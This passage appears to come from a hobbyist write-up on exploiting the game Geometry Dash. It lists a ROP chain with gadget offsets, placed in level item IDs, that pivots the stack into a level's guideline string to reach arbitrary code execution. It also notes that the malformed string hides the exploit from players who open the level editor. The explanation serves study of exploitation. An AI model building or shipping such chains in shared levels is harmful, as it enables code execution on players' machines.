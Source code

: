 To achieve arbitrary code execution using just nine item IDs, I used this ROP as essentially a "bootloader" for *another* ROP, stored somewhere else. Here's the ROP, starting at item ID `36`, and with the function at `-634` being `GameManager::sharedState` (RVA `0xc4a50`), which takes no arguments and simply returns the shared game manager instance in `eax`:

```
// eax = GameManager*

36: GD + 0x3400d        // pop edi; ret
37: GD + 0x281c9e       // add esp, 8; ret

38: GD + 0x117f7        // mov ecx, eax; call edi
39:                     // skipped by add esp, 8
40: GD + 0x10e5df       // mov eax, dword ptr [ecx + 0x164]; pop ebp; ret 0xc
41:                     // ebp
42: GD + 0x17f83        // mov ebx, eax; call edi
43:                     // 4
44:                     // 8
45:                     // c
46:                     // skipped by add esp, 8
47: GD + 0x1fc4f4       // mov ecx, dword ptr [ebx + 0x22c]; call edi
48:                     // skipped by add esp, 8
49: GD + 0xca8fe        // mov ecx, dword ptr [ecx + 0x118]; call edi
50:                     // skipped by add esp, 8

// ecx now has guidelines string, make it the stack
51: GD + 0x7f3cb        // push ecx; pop ebp; add byte ptr [eax], al; push eax; mov ecx, esi; call edi
// no skip here, it skips pushed eax
52: GD + 0x1089         // mov esp, ebp; pop ebp; ret
```

Let's go through what it's doing.

- (36) First we pop `edi`, which will set it to the value at item ID `37`, which is a pointer to an `add esp, 8; ret` gadget. This is done because many other gadgets down the line end with a `call edi`, and we want those calls to simply ignore the return address that was pushed and continue with the ROP.
- (38) Then, we move `eax`, which contains the `GameManager` pointer, into `ecx`, so that the next gadget can access the value at `[ecx + 0x164]`. This is the `m_playLayer` field of `GameManager`, which contains a `PlayLayer*`. At 42 we then move that into `ebx`.
- (47) We then access the value at `[ebx + 0x22c]`, which is the `m_levelSettings` field of `PlayLayer`. This contains a `LevelSettingsObject*`.
- (49) We then access the value at `[ecx + 0x118]`, which is the `m_guidelineString` field of `LevelSettingsObject`. The type of this field is `std::string`, and at offset 0 of that happens to be the `char*` containing the data.
- (51) The important instructions here are `push ecx; pop ebp`. The rest is just noise that came with the instructions. It's mostly harmless, except the `add byte ptr [eax], al`, which must be corrected later on when we have ACE.
- (52) Make the guideline string our new stack!

The `m_guidelineString` field is *supposed* to contain information about the song, in a specific format, which draws lines ("guidelines") in the level editor corresponding to the music so that level creators can sync their levels to the music. However, we can put anything in here as long as it doesn't contain null bytes, and it'll load the level fine. However, if it doesn't conform to the format, it will crash the level editor if opened. I see this as a benefit, because curious folks can no longer open the level in the editor to try to get an idea of how the exploit works :^)
